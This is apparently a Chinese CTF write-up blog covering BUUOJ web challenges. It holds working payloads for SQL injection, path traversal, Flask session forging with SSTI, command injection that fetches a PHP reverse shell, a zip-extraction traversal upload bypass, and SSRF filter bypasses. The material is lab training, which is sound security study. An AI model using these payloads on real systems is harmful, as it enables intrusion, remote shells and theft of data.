


1-4没啥好说的
arf_2
利用nginx的解析错误
SQL注入2
一个报错注入
1
| admin' and extractvalue(0x0a,concat(0x0a,(sELect group_concat(table_name) from information_schema.tables where table_schema=database() )))
|
1
| admin' and extractvalue(0x0a,concat(0x0a,(sELect group_concat(column_name) from information_schema.columns where table_name='fl4g' )))
|
afr_3
不会了，学习了。
当我们读取文件的时候，可以通过读取proc/self/cmdline目录来查看系统执行了什么命令
1
2
3
4
5
6
| /proc/cmdline
在启动时传递至内核的相关参数信息，这些信息通常由lilo或grub等启动管理工具进行传递；
[root@rhel5 ~]# more /proc/cmdline
ro root=/dev/VolGroup00/LogVol00 rhgb quiet
|

在这里就能看见server.py了，于是再去proc/self/cwd目录下读取这个文件
1
| cwd — 指向当前进程运行目录的一个符号链接；
|
也就是说cwd下可以连接到所有当前正在启动的进程的工作目录
于是构造：
1
| http://3a7463f9-513b-4f61-a0d1-b5ce36abfa59.node3.buuoj.cn/article?name=../../../../../../proc/self/cwd/server.py
|
得到源码：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
| import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session
app = Flask(__name__)
execfile('flag.py')
execfile('key.py')
FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
if request.method != "POST":
return redirect(url_for("index"))
n1code = request.form.get("n1code") or None
if n1code is not None:
n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
if "n1code" not in session or session['n1code'] is None:
session['n1code'] = n1code
template = None
if session['n1code'] is not None:
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
session['n1code'] = None
return render_template_string(template)
@app.route("/", methods=["GET"])
def index():
return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
error = 0
if 'name' in request.args:
page = request.args.get('name')
else:
page = 'article'
if page.find('flag')>=0:
page = 'notallowed.txt'
try:
template = open('/home/nu11111111l/articles/{}'.format(page)).read()
except Exception as e:
template = e
return render_template('article.html', template=template)
if __name__ == "__main__":
app.run(host='0.0.0.0', debug=False)
|
看见flag被过滤了，读一下key.py
猛测了一波
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
| .eJyrVsozTM5PSVWyUqquVoiO1YuPT85JLC6Ojweycovy4-OjdQ1BosWlSWCJVKCUhma0qSVIMDMvswSsMj0nPykxB6IrqTQzpyQzD8hRUKitVaoFALt_IyQ.X8irqA.tYkx2Q2zmFaN_M5JnsennKV32nI
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t '{"n1code": "{{''.__class__.__mro__[2].__subclasses__()[40] }}"} ' -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7ey5fX2NsYXNzX18uX19tcm9fX1syXS5fX3N1YmNsYXNzZXNfXygpWzQwXSB9fSJ9.X8isNQ.mwsFCJ2g4ZXyuONHb9SWzKEHrVk
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t '{"n1code": "{{''.__class__.__mro__[2].__subclasses__() }}"} ' -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7ey5fX2NsYXNzX18uX19tcm9fX1syXS5fX3N1YmNsYXNzZXNfXygpIH19In0.X8isRA._rfFegMxGGcZG8hbm0Et10WBnFI
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t '{"n1code": "{{''.__class__.__mro__[-1].__subclasses__() }}"} ' -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7ey5fX2NsYXNzX18uX19tcm9fX1stMV0uX19zdWJjbGFzc2VzX18oKSB9fSJ9.X8isYg.HxdhLvdW6lQkPiK3HHLXq7safdU
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t '{"n1code": "{{\'\'.__class__.__mro__[2].__subclasses__() }}"} ' -s 'Drmhze6EPcv0fN_81Bj-nA'
bash: 未预期的符号“(”附近有语法错误
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t "{\"n1code\": \"{{''.__class__.__mro__[2].__subclasses__() }}\"}" -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKCkgfX0ifQ.X8isow.oTg9cFIhfKJan3dvrWECrR8Y4xs
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t "{\"n1code\": \"{{''.__class__.__mro__[2].__subclasses__()[40] }}\"}" -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdIH19In0.X8iswQ.4rU8qOrp7diJa_N5IjdCwm0EvLQ
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t "{\"n1code\": \"{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py') }}\"}" -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykgfX0ifQ.X8is5w.TImXqmpXkV0tjZzmcVFAIvvFP28
root@kali:/flask-session-cookie-manager# python3 flask_session_cookie_manager3.py encode -t "{\"n1code\": \"{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read() }}\"}" -s 'Drmhze6EPcv0fN_81Bj-nA'
eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpIH19In0.X8is9Q._7aNNdKqdaXGJ6mbSLLA1W9wjBQ
root@kali:/flask-session-cookie-manager#
|
最后才成功：
1
| python3 flask_session_cookie_manager3.py encode -t "{\"n1code\": \"{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read() }}\"}" -s 'Drmhze6EPcv0fN_81Bj-nA'
|
[第二章 web进阶]死亡ping命令
这个题目的ping能够出外网，所以我们只需要用%0a将ping换行绕过
之后curl [ip]/xxx.php >>/tmp/xx
php可以写一个反弹shell文件，这里比如我们用P牛的：
1
2
3
4
5
6
7
8
9
10
| <?php
$sock = fsockopen("$IP", $port);
$descriptorspec = array(
0 => $sock,
1 => $sock,
2 => $sock
);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
?>
|
之后我们再执行命令
即可反弹shell
[第二章 web进阶]文件上传
知识点：
1.apache自带的文件解析漏洞
如果apache读取文件的时候，后缀为其不可解析的文件名后缀，就会向上追溯，例如我们的apache解析
因为apache无法解析xxx,所以apache就会解析前一个，就是aaa.php了【但是我们访问的时候依然用aaa.php.xxx去访问
2.逻辑漏洞
题目是给出源代码的：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
| <?php
header("Content-Type:text/html; charset=utf-8");
require_once('pclzip.lib.php');
if(!$_FILES){
echo '
<!DOCTYPE html>
<html lang="zh">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<meta http-equiv="X-UA-Compatible" content="ie=edge" />
<title>文件上传章节练习题</title>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
<style type="text/css">
.login-box{
margin-top: 100px;
height: 500px;
border: 1px solid #000;
}
body{
background: white;
}
.btn1{
width: 200px;
}
.d1{
display: block;
height: 400px;
}
</style>
</head>
<body>
<div class="container">
<div class="login-box col-md-12">
<form class="form-horizontal" method="post" enctype="multipart/form-data" >
<h1>文件上传章节练习题</h1>
<hr />
<div class="form-group">
<label class="col-sm-2 control-label">选择文件：</label>
<div class="input-group col-sm-10">
<div >
<label for="">
<input type="file" name="file" />
</label>
</div>
</div>
</div>
<div class="col-sm-8 text-right">
<input type="submit" class="btn btn-success text-right btn1" />
</div>
</form>
</div>
</div>
</body>
</html>
';
show_source(__FILE__);
}else{
$file = $_FILES['file'];
if(!$file){
exit("请勿上传空文件");
}
$name = $file['name'];
$dir = 'upload/';
$ext = strtolower(substr(strrchr($name, '.'), 1));
$path = $dir.$name;
function check_dir($dir){
$handle = opendir($dir);
while(($f = readdir($handle)) !== false){
if(!in_array($f, array('.', '..'))){
if(is_dir($dir.$f)){
check_dir($dir.$f.'/');
}else{
$ext = strtolower(substr(strrchr($f, '.'), 1));
if(!in_array($ext, array('jpg', 'gif', 'png'))){
unlink($dir.$f);
}
}
}
}
}
if(!is_dir($dir)){
mkdir($dir);
}
$temp_dir = $dir.md5(time(). rand(1000,9999));
if(!is_dir($temp_dir)){
mkdir($temp_dir);
}
if(in_array($ext, array('zip', 'jpg', 'gif', 'png'))){
if($ext == 'zip'){
$archive = new PclZip($file['tmp_name']);
foreach($archive->listContent() as $value){
$filename = $value["filename"];
if(preg_match('/\.php$/', $filename)){
exit("压缩包内不允许含有php文件!");
}
}
if ($archive->extract(PCLZIP_OPT_PATH, $temp_dir, PCLZIP_OPT_REPLACE_NEWER) == 0) {
check_dir($dir);
exit("解压失败");
}
check_dir($dir);
exit('上传成功!');
}else{
move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
check_dir($dir);
exit('上传成功!');
}
}else{
exit('仅允许上传zip、jpg、gif、png文件!');
}
}
|
核心的点在check_dir这里，我们上下看一眼就知道我们是白名单上传，绕过就别想了，但是他允许我们上传zip，这样的话就有操作的空间了。注意这个函数：
1
| $archive = new PclZip($file['tmp_name']);
|
这里涉及到了一个trick，该函数是存在目录穿越漏洞的！。也就是说如果我们的文件名为../../xx.php.xx
就会被上传到其他目录，这里修改的话需要利用010editor来进行操作
之后我们可以看见：
1
2
3
4
5
6
| foreach($archive->listContent() as $value){
$filename = $value["filename"];
if(preg_match('/\.php$/', $filename)){
exit("压缩包内不允许含有php文件!");
}
}
|
逻辑是先解压文件，之后再check，但是利用该漏洞，check的时候文件已经被创建到其他文件夹去了，也就没办法check到了。
所以我们这里直接上传一个../../xx.php.xxx就行了
[第三章 web进阶]SSTI
简单题目，直接梭就行了
1
| http://5d5ec153-1957-45a2-bff1-fda588f70774.node3.buuoj.cn/?password={{ config.__class__.__init__.__globals__['os'].popen('cat app/server.py').read() }}
|
[第三章 web进阶]Python里的SSRF
知识点：
关于SSRF，其实我也懂得不多..这道题题目给出提示让我们访问
8000 端口和 url path /api/internal/secret
这里是看过P牛的文章..
1
| leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html
|
所以我们想要绕过只需要构造：
1
| http://95cf0d10-668e-49cc-a0ac-3982c091dd6d.node3.buuoj.cn/?url=http://127.233.233.233:8000/api/internal/secret
|
除此之外，在linux当中0.0.0.0等效于127.0.0.1
故我们其实也可以构造：
1
| http://95cf0d10-668e-49cc-a0ac-3982c091dd6d.node3.buuoj.cn/?url=http://0.0.0.0:8000/api/internal/secret
|
还有：
- 利用八进制IP地址绕过
- 利用十六进制IP地址绕过
- 利用十进制的IP地址绕过
- 利用IP地址的省略写法绕过
1
| 四种写法（5个例子）：012.0.0.1 、 0xa.0.0.1 、 167772161 、 10.1 、 0xA000001 实际上都请求的是10.0.0.1，但他们一个都匹配不上上述正则表达式。
|
这里还提供一些ssrf的思路，比如：
1
| http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误
|
还有这么一个[xip服务] http://xip.io
暂且思考到这里：
[第二章 web进阶]SSRF Training
呃，就很奇怪？这道题的时候，index.php服务下的容器，可以直接127.0.0.1/flag.php就冲过去了

但是还有个challenge.php,这个要难。给出源码：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
| <?php
highlight_file(__FILE__);
function check_inner_ip($url)
{
$match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url);
if (!$match_result)
{
die('url fomat error');
}
try
{
$url_parse=parse_url($url);
}
catch(Exception $e)
{
die('url fomat error');
return false;
}
$hostname=$url_parse['host'];
$ip=gethostbyname($hostname);
$int_ip=ip2long($ip);
return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}
function safe_request_url($url)
{
if (check_inner_ip($url))
{
echo $url.' is inner ip';
}
else
{
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
$result_info = curl_getinfo($ch);
if ($result_info['redirect_url'])
{
safe_request_url($result_info['redirect_url']);
}
curl_close($ch);
var_dump($output);
}
}
$url = $_GET['url'];
if(!empty($url)){
safe_request_url($url);
}
?>
|
主要trick在于parse_url和curl的解析会出现差异，当我们构造url为：
1
| http://a@127.0.0.1:80@baidu.com
|
parse_url会解析后者，拿到手上的就是http://baidu.com,而curl实际上发送出去的请求为127.0.0.1:80
注意一些，如果你需要访问某个页面，你需要添加的payload应该是：
1
| ?url=http://a@127.0.0.1:80@hacktest.com/flag.php
|